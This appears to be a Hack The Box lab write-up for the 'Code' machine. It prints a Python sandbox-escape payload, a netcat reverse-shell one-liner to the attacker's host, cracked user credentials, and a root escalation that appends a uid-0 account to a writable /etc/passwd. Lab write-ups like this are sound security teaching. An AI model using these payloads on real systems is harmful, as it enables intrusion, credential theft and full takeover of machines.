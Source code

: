 ```yaml
---
title: Hackthebox code machine write up 
categories: PENTEST 
image: null
published: true
---
```



H3ll0 pwn3rs !!!


Here is a writeup for Hackthebox `code machine`

![recon](/assets/hackthebox/code.png)

Hackthebox `Code box `  is an easy linux machine.

We exploit the machine as follow:
- Exploit RCE in python sanbox
- Make reverse shell
- Found databse file
- retrive Martin password in md5 hash
- crack the password with crackstation
- connect to ssh with martin credential
- use  linpeas to enum
- /etc/passwd is writable by martin
- create new-user root user
- switch to new-user and get access to root


# Nmap scan
```
sudo nmap -A -T4 --min-rate 1000 10.10.11.62                                                                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-21 22:29 WAT                                                             
Nmap scan report for 10.10.11.62                                                                                               
Host is up (0.76s latency).                                                                                                    
Not shown: 998 closed tcp ports (reset)                                                                                        
PORT     STATE SERVICE VERSION                                                                                                 
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)                                           
| ssh-hostkey:                                                                                                                 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)                                                                 
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)                                                                |_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)                                                              
5000/tcp open  http    Gunicorn 20.0.4                                                                                         
|_http-title: Python Code Editor                                                                                               
|_http-server-header: gunicorn/20.0.4                                                                                          
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).                            
TCP/IP fingerprint:

```

### Found two open port 22 for ssh and 5000 for  http 


When we navigate to http://10.10.11.62:5000/, we found web page that let you run python code.
I try injection in login and singup form by not success.
After some try and error i decide to focus on python code execution feature.
The idea here is to bypass sandbox and make code  code execution.
you can try to play with it to understand it better.
After spend some time, i knew that we deal with python sanbox, some keywork are blacklisted.
keyword like those:  ` system, exec, builtins, os , popen, read,...`. 

How to bypass this sandbox??? 
Below are  the steps:
- found a way to access buitins: print.__self__
- from buitins, access to __import__ to import os: `.__dict__.get('imp' +ort')('o'+'s')
- from os, call system to exec code on the remote server: .__getattribute__("sys" +"tem")
- exec your command: ("command")

The payload :

```python
print.__self__.__dict__.get('__imp' +'ort__')('o'+'s').__getattribute__("sys"+"tem")("command")"
```


I run nc in listen mode on my local machine
``nc -lvp 4444``

and send this payload:
```python3
print.__self__.__dict__.get('__imp' +'ort__')('o'+'s').__getattribute__("sys"+"tem")("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.79 4444 >/tmp/f")

```


# Bouummmm ! get reverse shell 

![recon](/assets/hackthebox/get_reverse_shell.png)

```bash
$ whoami
app-production
$ pwd
/home/app-production/app
$ ls ..
app
linpeas.sh
user.txt
$ cat user.txt
cat: user.txt: No such file or directory
$ cat ../user.txt
809b23efc5263f3987xxxxxxxxxxxxxxxxx
$ id
uid=1001(app-production) gid=1001(app-production) groups=1001(app-production)
$ ls /home
app-production
martin
$ 
```

We have martin user on the machine.
i read app.py and found some credential on it. 
I also noticed that the app use database.db sqlite for to store users info and code.
- Copy database.db into static directory
- download it by navigate to http://10.10.11.62:5000/static/database.db
- use `sqlite3 ` to retrive martin password from database.
```
sqlite> .tables
code  user
sqlite> select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|gamer|7f99bef877271bf7dd4aee74c0629e32
sqlite> select * from code;
1|1|print("Functionality test")|Test
sqlite> 
```

martin md5 password is 3de6f30c4a09c27fc71932bfc68474be which is egal to `nafeelswordsmaster`


Now we can use that credential (martin:nafeelswordsmaster) to access to ssh:
```bash
ssh martin@10.10.11.62
```bash
ssh martin@10.10.11.62                                                   
martin@10.10.11.62's password:                                                                 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)                                                                                                                            
                                                                               
 * Documentation:  https://help.ubuntu.com                                     
 * Management:     https://landscape.canonical.com                                             
 * Support:        https://ubuntu.com/pro                                                      
                                                                                                                                                                                                                   
 System information as of Tue 22 Apr 2025 09:01:17 AM UTC                                      
                                                                               
  System load:           0.0                                                                   
  Usage of /:            64.6% of 5.33GB                                                                                                                                                                           
  Memory usage:          20%                                                                                                                                                                                       
  Swap usage:            0%                                                                              
  Processes:             234                                                   
  Users logged in:       0                                                                                                              
  IPv4 address for eth0: 10.10.11.62                                
  IPv6 address for eth0: dead:beef::250:56ff:feb0:9a92                         
                                                                    
                                                                                                                                                              
Expanded Security Maintenance for Applications is not enabled.      
                                                                    
0 updates can be applied immediately.                               
                                                                                                                                                              
Enable ESM Apps to receive additional future security updates.                                                                                                
See https://ubuntu.com/esm or run: sudo pro status                             

                                                                                                                                                              
The list of available updates is more than a week old.                         
To check for new updates run: sudo apt update                                                  
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings                                                                         
                                                                               
                                                                               
                                                                               
The programs included with the Ubuntu system are free software;                                                                                                                               
the exact distribution terms for each program are described in the                                                                                                                            
individual files in /usr/share/doc/*/copyright.                                                

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                                                                                                                          
applicable law.                                                                                

Last login: Tue Apr 22 09:01:21 2025 from 10.10.16.79                                          
martin@code:~$ whoami                                                                          
martin                                                                                         
martin@code:~$ id                                                                              
uid=1000(martin) gid=1000(martin) groups=1000(martin)                                          
martin@code:~$
```


# Time to priveEsc

I use linpeas.sh to enumerate
```
ls -al /etc/passwd
```
#### /etc/passwd is writable
so we can add new-user with root access
 - Generate new user password:
 ` openssl passwd -1 -salt ignite pass123`
```bash
echo 'new-user:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> /etc/passwd
su new-user
```

![recon](/assets/hackthebox/root.png)

# And we pwn the box

![recon](/assets/hackthebox/code_pwn.png)

# Happy Hacking !!!!!!! @Top0n3
